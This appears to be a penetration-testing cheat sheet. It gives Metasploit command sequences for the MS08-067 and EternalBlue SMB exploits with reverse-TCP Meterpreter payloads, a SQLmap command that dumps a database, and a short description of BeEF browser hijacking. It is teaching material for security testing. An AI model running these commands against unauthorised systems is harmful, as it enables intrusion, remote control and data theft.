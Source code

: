 ### Metasploit Framework

Metasploit is a widely-used exploitation framework that provides a comprehensive suite of tools for developing, testing, and executing exploits. It includes a vast database of known vulnerabilities and pre-built exploits.

#### Metasploit Examples

- **Launching a simple exploit:**
    Uses Metasploit to exploit the `MS08-067` vulnerability in Windows SMB, setting up a reverse TCP payload to gain a meterpreter session on the target.

    ```bash
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set RHOST <target_ip>
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST <your_ip>
    run
    ```

- **Exploiting a Windows SMB Vulnerability:**
    Uses the EternalBlue exploit (`ms17_010_eternalblue`) to target a Windows machine via SMB, establishing a Meterpreter session.

    ```bash
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS <target_ip>
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST <your_ip>
    run
    ```

### SQLmap

SQLmap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications. It can extract database information, execute SQL commands, and even provide a command shell.

#### SQLmap Examples

- **Exploiting a SQL injection vulnerability:**
    Uses SQLmap to automatically exploit a SQL injection vulnerability in a web application, retrieving and dumping the database content.

    ```bash
    sqlmap -u "http://example.com/index.php?id=1" --batch --dump
    ```

### BeEF

**BeEF (Browser Exploitation Framework):** BeEF focuses on exploiting vulnerabilities in web browsers. It allows testers to control compromised browsers and perform various actions, such as stealing credentials or capturing keystrokes.
